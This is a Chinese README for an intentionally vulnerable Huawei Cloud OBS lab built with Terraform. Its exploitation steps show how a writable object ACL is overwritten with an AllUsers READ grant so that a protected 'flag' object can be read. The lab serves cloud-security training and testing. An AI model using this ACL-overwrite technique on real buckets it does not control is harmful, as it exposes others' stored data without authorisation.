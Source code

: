 # 华为云 OBS Object ACL 可写漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建华为云对象存储 Object ACL 可写的漏洞环境靶场。

使用 Terraform 构建环境后，用户可以通过修改 Object 的 ACL 策略读取到原本不能读取的数据。

## 环境搭建

在容器中运行

```shell
cd /TerraformGoat/object_storage_service/huaweicloud/object_acl_writable/
```

编辑 `terraform.tfvars` 文件，在文件中填入你的 `huaweicloud_access_key` 和 `huaweicloud_secret_key`

> 在华为云「控制台 --》我的凭证」处可以找到访问密钥

```shell
vim terraform.tfvars
```

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

![image](../../../images/1650779200.png)

当命令执行完后，在 Outputs 处可以看到 Bucket 名称，这个 Bucket 存在 Object ACL 读取和写入权限，Object Key 为 flag

## 漏洞利用

尝试读取 flag 文件，发现提示访问拒绝

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```

![image](../../../images/1650779408.png)

尝试读取 flag 文件的 ACL 策略，发现可以读取

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag?acl
```

![image](../../../images/1650779592.png)

尝试使用 PUT 方法上传 flag 文件的 Object ACL 策略，在原有策略的基础上增加以下策略，发现可以上传

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ</Permission>
</Grant>
```

![image](../../../images/1650779871.png)

再次尝试读取 flag 文件，可以看到成功读取到 flag 文件

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```

![image](../../../images/1650780002.png)

## 销毁环境

```shell
terraform destroy
```
